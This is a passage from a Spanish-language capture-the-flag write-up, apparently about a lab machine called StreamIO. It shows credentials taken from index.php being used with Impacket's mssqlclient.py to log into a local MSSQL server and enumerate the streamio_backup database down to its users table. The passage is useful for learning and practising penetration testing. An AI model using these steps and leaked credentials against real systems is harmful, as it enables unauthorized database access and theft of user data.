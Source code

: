 ### Base de datos "Local" [+](#database) {#database}

Teniendo su puerto de forma local y posibles credenciales de la base de datos que nos revela index.php, podemos usar <a href="https://www.secureauth.com/labs/open-source-tools/impacket/" target="_blank">mssqlclient.py</a> para ver que contiene o si oculta algo
```ruby
❯ mssqlclient.py streamio/db_admin:'B1@hx31234567890'@localhost
Impacket v0.10.1.dev1 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC): Line 1: Changed database context to 'master'.
[*] INFO(DC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```

Ahora podemos ver toda la base de datos

```mysql
SQL> select name from sys.databases
name                                                                                                                               

-------------------------------------------------------

master                                                                                                                             

tempdb                                                                                                                             

model                                                                                                                              

msdb                                                                                                                               

STREAMIO                                                                                                                           

streamio_backup                                                                                                                    

SQL> use streamio_backup

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: streamio_backup
[*] INFO(DC): Line 1: Changed database context to 'streamio_backup'.

SQL> select table_name from information_schema.tables
table_name                                                                                                                         

--------------------------------------------------------  

movies                                                                                                                             

users                                                                                                                              

SQL> select column_name from information_schema.columns where table_name='users'
```